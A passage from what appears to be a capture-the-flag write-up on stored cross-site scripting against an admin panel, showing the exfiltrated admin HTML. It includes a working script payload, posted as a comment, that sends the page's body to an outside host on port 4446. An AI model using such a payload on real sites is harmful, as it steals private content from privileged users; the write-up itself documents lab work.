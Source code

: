 ```html
	</ul>
        </div>
      </div>
    </nav>

    <div class="container" id="content">


      <div>
        <h1>Good news!</h1>
        <div class="comment">
            <blockquote>
                <p>lol<script>$.post('http://standard.io:4446', {'a': btoa($('body')[0].innerHTML)})</script></p></blockquote></div></div></div>
```

`document.cookie` was empty/inaccessible so I guessed the links in the top panel are way to go.  We have only `admin/token`, `admin/bugs` and `admin/comments`. I first fetched `admin/bugs` the same way:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <meta name="description" content="Admin">
    <meta name="author" content="The lonely admin">
    <link rel="icon" href="img/favicon.ico">

    <title>Admin</title>
    <base href="/">

    <link href="css/bootstrap.min.css" rel="stylesheet">

  </head>

  <body>

    <script src="js/jquery-2.1.4.min.js"></script>
    <script src="js/bootstrap.min.js"></script>
    <script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;"/>
```
